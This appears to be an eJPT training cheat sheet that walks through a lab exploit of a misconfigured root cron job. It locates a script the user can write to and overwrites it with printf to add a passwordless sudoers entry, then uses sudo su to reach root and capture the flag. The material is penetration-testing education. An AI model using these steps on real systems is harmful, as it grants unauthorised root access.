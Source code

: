 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

# Exploiting Misconfigured Cron Jobs

```shell
# There is a message file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.
ls -l
# Find if a file with the same name exists on the system.
find / -name message
# Observe that a file with the same name is present in the /tmp directory. On checking closely, it is clear that this file is being overwritten every minute.
ls -l /tmp/
```

 This means there is some script/binary which is copying this file from the student home directory to /tmp directory. Search for that script. If this script is doing a simple copy operation, it must have the source destination of the file in it. Try to locate that by using the grep command. On trying on different directories one by one (i.e. /, etc, /opt) and on /usr directory, a match has been found.

```shell
grep -nri "/tmp/message" /usr
# `grep`: A command-line tool used to search for specific patterns in files.
# `-n`: Displays the line number in the file where the matching text is found.
# `-r`: Performs a recursive search, meaning it will search through all subdirectories under `/usr`.
# `-i`: Makes the search case-insensitive so it will match `/tmp/message`, `/TMP/MESSAGE`, `/Tmp/Message`, etc.
# `"/tmp/message"`: The search pattern, It looks for any instance of this exact text string.
# `/usr`: The starting directory for the search. The command will look through all files and subfolders within `/usr`.

# Check the permissions on this script file and its contents.
ls -l /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
```

As the script file is writable by the current student user, it can be modified to execute our commands. This script is executed by root Cron Job, so it can do privileged operations. But, the file can’t be modified directly as there is no text editor on the system.

```shell
vim /usr/local/share/copy.sh
vi /usr/local/share/copy.sh
nano /usr/local/share/copy.sh
# command not found

# Use printf to replace the original code with the following lines.
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

# On execution, these lines will add a new entry to the /etc/sudoers file which will allow the student user to use sudo without providing any password.

cat /usr/local/share/copy.sh

# Check the current sudoers list.
sudo -l

# Switch to the root user using sudo.
sudo su

# Collect the flag from the root directory.
cd /root
```